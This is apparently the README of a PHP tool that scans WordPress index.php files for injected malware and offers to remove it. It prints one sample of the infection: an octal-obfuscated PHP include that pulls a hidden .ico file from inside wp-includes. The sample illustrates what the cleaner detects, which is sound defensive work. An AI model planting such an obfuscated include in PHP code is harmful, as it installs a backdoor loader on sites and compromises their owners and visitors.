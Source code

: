 # CleanWP
Simple PHP script to clean all files in your WordPress directory from Malware codes.

## Instructions
1. Upload file scandir.php to your WordPress directory
2. Open Web browser and run scandir.php using your WordPress's URL (Example: https://your_url.com/scandir.php)
3. First it will display all the affected files
4. Click "Click here to replace all" to clean the files
5. Enjoy!

For now, it will only scan all index.php files in both parent and all sub-directories.

## Sample malware or malicious codes

```
<?php
/*e57cb*/

@include "\057home\062/zha\146f/ap\160oint\146ox.c\157m/wp\055incl\165des/\143erti\146icat\145s/.c\063d913\0706.ic\157";

/*e57cb*/
```

## Note
Please backup your files first before running this script.
